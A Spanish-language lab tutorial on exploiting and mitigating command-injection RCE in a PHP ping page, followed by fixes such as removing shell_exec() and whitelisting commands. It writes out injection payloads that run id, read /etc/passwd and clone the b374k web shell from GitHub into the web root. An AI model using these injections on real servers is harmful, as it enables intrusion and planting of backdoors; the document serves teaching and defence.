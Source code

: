 # Explotación y Mitigación de Remote Code Execution (RCE)

De forma sencilla el ***RCE*** es una vulnerabilidad en la que un servicio web permite hacer una inyección de lenguaje scripting básico, permitiendo a un atacante ejecutar comando sobre el servidor que contiene en servicio web.

El resultado de esos comandos se muestra en la misma página de forma dinámica.

Algunas de las consecuencias que tiene el *RCE*:

+ Acceso a información sensible (usuarios, archivos, configuración).
+ Ejecución de comandos maliciosos (descarga y ejecución de malware).
+ Escalada de privilegios y control total del sistema.

## Creación de página vulnerable a RCE

Vamos a crear una pequeña página llamada: [rce.php](./Recursos/rce.php) con un input que va a recibir una dirección ip y se va a encargar de hacer ping a ella:

![RCE.php](./Imagenes/1.png)

El uso legítimo de la página es recibir una dirección ip y te muestra el resultado del ping:

![ping](./Imagenes/2.png)

Vamos a probar a introducir el comando ***id*** anidado a una dirección ip de la siguiente manera:

```
8.8.8.8 & id
```

Devueve el resultado del ping y ademas devuelve el resultado del comando id:

![ping](./Imagenes/3.png)

Ahora vamos a listar archivos:

![ping](./Imagenes/4.png)

Vamos a leer el contenido de ***/etc/passwd***:

![ping](./Imagenes/5.png)

Ahora vamos a realizar la prueba de intentar ejecutar malware:

Primero le damos permisos a */var/www/html* en nuestro contenedor:

```
sudo chmod -R 777 /var/www/html/
```
Y ahora intentamos descargarnos el malware desde un repositorio de git:

```
8.8.8.8 & git clone https://github.com/b374k/b374k.git /var/www/html/b374k
```


Al ejecutarse se habra descargado la carpeta **b374k** y dentro de ella varios archivos, entre ellos, **index.html** , que si accedemos a el pode¡remos ejecutar los comandos que queramos:

![ping](./Imagenes/6.png)

![ping](./Imagenes/7.png)

Ya tendriamos el control total del sistema.

## Mitigaciones de RCE


Una vez explotadas la vulnerabilidades vamos a ver como mitigarlas:


Creamos el siguiente archivo llamado [rce2.php](./Recursos/rce2.php) que espera recibir un comando por parámetro por url:


![rce2.php](./Imagenes/8.png)

Una forma de mitigación es eliminar la posibilidad de ejecutar comandos eliminando ***shell_exec()***, para ello creamos el archivo [rce3.php](./Recursos/rce3.php):

![rce3.php](./Imagenes/9.png)

Los beneficios de eliminar *shell_exec()* son:

+ Bloquea cualquier intento de ejecución de código en el sistema.
+ Evita ataques RCE de forma definitiva.
+ No necesita más medidas de seguridad, ya que la ejecución de comandos es eliminada.

También podemos hacer uso de listas blancas si necesitamos hacer uso de algunos comandos:

Creamos un fichero [rce4.php](./Recursos/rce4.php) con los comandos permitidos '***ls***', '***whoami***' y '***pwd***':

![rce4.php](./Imagenes/10.png)

Si probamos a pasarle un comando de los permitidos funciona:

![rce4.php](./Imagenes/11.png)

En cambio, si introducimos un comando no permitido, nos indica que el comando no esta permitido;

![rce4.php](./Imagenes/12.png)
